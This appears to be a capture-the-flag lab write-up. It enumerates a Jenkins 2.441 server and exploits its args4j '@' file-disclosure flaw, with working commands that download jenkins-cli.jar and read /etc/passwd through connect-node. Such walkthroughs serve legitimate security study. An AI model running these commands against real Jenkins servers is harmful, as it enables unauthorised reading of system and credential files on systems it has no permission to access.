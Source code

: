 
## Enumeration:
We see that there are two ports open ssh (port 22)and a jenkins instance on 8080, browsing http://10.10.11.10:8080/ we get the version number of jenkins at bottom-right,


![](Files/image1.png)

There are plenty of articles available by just searching version number on google about exploiting it, here is the link for security advisory for version 2.441
https://www.jenkins.io/security/advisory/2024-01-24/

> The file disclosure vulnerability exists because that version of jenkins uses args4j library to parse command line arguments, but when a command is preceeded with "@" symbol, it tries to read the contents of the file and displays it in its error, we can take the advantage of this mechanism to file disclosure vulnerability.

## Exploiting file disclosure vulnerability

Step 1: Downloading cli application to interact with the websocket,
```bash
wget http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar
```
Step 2: Executing it to read /etc/password as POC:
```bash
java -jar jenkins-cli.jar -s "http://10.10.11.10:8080/" connect-node "@/etc/passwd"
```
(connect-node argument is the safest and better option to exfil file contents)
